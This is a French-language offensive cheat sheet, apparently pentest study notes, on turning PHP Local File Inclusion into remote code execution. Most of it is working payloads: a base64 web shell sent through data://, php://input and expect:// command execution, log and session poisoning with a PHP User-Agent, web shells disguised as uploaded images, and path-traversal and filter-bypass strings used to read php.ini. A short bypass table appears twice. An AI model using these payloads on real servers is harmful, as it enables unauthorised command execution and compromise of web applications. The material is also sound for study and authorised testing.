

Ce document détaille l'exploitation de vulnérabilités de type **LFI** (Local File Inclusion) via les **PHP Wrappers** pour obtenir une **RCE** (Remote Code Execution). Ces techniques sont étroitement liées aux phases de **Web Application Enumeration** et de **Linux Post-Exploitation**.



## Prérequis

- **LFI** exploitable via des fonctions comme `include()`, `require()`, `include_once()` ou `require_once()`.
- Configuration PHP : **allow_url_include** doit être activé pour les wrappers `data://` et `php://input`.
- Extension PHP : L'extension **expect** doit être chargée dans le fichier `php.ini` pour utiliser le wrapper `expect://`.

> [!danger] allow_url_include
> Cette option est souvent désactivée par défaut en production pour limiter les risques d'inclusion de fichiers distants ou de flux malveillants.

> [!warning] Extension expect
> L'extension **expect** est rarement installée par défaut sur les serveurs web.

## php://filter

Ce wrapper permet de lire le contenu de fichiers locaux en appliquant des filtres, utile pour contourner l'exécution du code PHP et récupérer le code source.

```php
php://filter/read=convert.base64-encode/resource=FICHIER
```

Exemple pour lire `config.php` :

```bash
?lang=php://filter/read=convert.base64-encode/resource=config
```

Le contenu récupéré est encodé en base64. Pour le décoder localement :

```bash
echo BASE64_OUTPUT | base64 -d
```

## data://

Permet d'inclure des données encodées directement dans le flux.

### Préparation du payload

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Sortie : `PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==`

### Exécution

```bash
?lang=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

```bash
curl -s 'http://IP:PORT/index.php?lang=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'
```

## php://input

Permet d'inclure le corps d'une requête HTTP POST comme flux de données.

> [!warning] Logs serveurs
> Attention aux logs serveurs lors de l'utilisation de **php://input**, car les payloads envoyés en POST peuvent être enregistrés en clair dans les fichiers de logs.

### Exécution

```bash
curl -s -X POST \
  --data '<?php system($_GET["cmd"]); ?>' \
  'http://IP:PORT/index.php?lang=php://input&cmd=id'
```

## expect://

Permet l'exécution directe de commandes système si l'extension est chargée.

```bash
?lang=expect://id
```

```bash
curl 'http://IP:PORT/index.php?lang=expect://whoami'
```

## Log Poisoning (via /proc/self/environ ou logs Apache/SSH)

Si l'inclusion de fichiers est possible, on peut injecter du code PHP dans les logs du serveur (ex: `access.log` ou `error.log`) ou dans les variables d'environnement.

1. **Injection via User-Agent** :
```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://IP:PORT/
```
2. **Inclusion du log** :
```bash
?lang=/var/log/apache2/access.log&cmd=id
```

> [!tip] /proc/self/environ
> Si le processus PHP a les droits de lecture, `/proc/self/environ` peut contenir des variables d'environnement (ex: HTTP_USER_AGENT) injectables.

## Session Poisoning

Si le site utilise des sessions PHP, les données sont stockées dans `/var/lib/php/sessions/sess_<PHPSESSID>`.

1. **Injection** : Modifier la valeur d'une variable de session via l'application.
2. **Inclusion** :
```bash
?lang=/var/lib/php/sessions/sess_votre_id_de_session
```

## File Upload inclusion

Si une fonctionnalité d'upload existe, on peut uploader un fichier `.jpg` ou `.png` contenant du code PHP (ex: `<?php system($_GET['cmd']); ?>`) et l'inclure via LFI.

```bash
?lang=./uploads/shell.jpg&cmd=id
```

## Gestion des erreurs et bypass de WAF

Pour contourner les restrictions de filtrage ou les extensions forcées :

- **Null Bytes** : Pour PHP < 5.3.4, ajouter `%00` à la fin du chemin pour tronquer l'extension ajoutée par le serveur.
- **Bypass de filtres** : Utiliser des encodages multiples ou des caractères spéciaux pour tromper les regex de sécurité.

| Technique | Description |
| :--- | :--- |
| Double encodage | Utiliser `%252e%252e%252f` pour contourner les filtres |
| Null bytes | Utiliser `%00` pour terminer la chaîne (PHP < 5.3.4) |
| Filtres de caractères | Tenter `....//`, `..././`, ou `....\/` |

> [!note] Bypass d'extension
> Le bypass d'extension `.php` peut nécessiter l'utilisation de null bytes ou de filtres spécifiques dans le chemin d'accès au fichier.

## Vérification des prérequis

Il est possible d'énumérer la configuration du serveur en lisant le fichier `php.ini` via **php://filter**.

```bash
curl 'http://IP:PORT/index.php?lang=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini' | base64 -d | grep allow_url_include
```

```bash
curl 'http://IP:PORT/index.php?lang=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini' | base64 -d | grep expect
```

## Contournements

| Technique | Description |
| :--- | :--- |
| Double encodage | Utiliser `%252e%252e%252f` pour contourner les filtres de caractères |
| Chaînes non filtrées | Tenter `....//`, `..././`, ou `....\/` pour échapper les filtres de récursion |
| Null bytes | Utiliser `%00` pour terminer la chaîne (PHP < 5.3.4) |

> [!note] Bypass d'extension
> Le bypass d'extension `.php` peut nécessiter l'utilisation de null bytes ou de filtres spécifiques dans le chemin d'accès au fichier.